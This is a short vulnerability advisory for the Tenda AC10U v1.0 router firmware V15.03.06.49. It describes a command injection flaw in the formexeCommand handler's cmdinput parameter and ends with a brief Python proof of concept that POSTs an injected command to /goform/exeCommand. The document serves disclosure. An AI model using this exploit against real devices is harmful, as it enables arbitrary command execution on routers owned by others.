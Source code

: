 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.49 firmware, we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.

![image-20240407163019387](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163019387.png)

![image-20240407163027991](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163027991.png)

## POC

```python
import requests
IP = "192.168.84.102"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240407162830240](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407162830240.png)
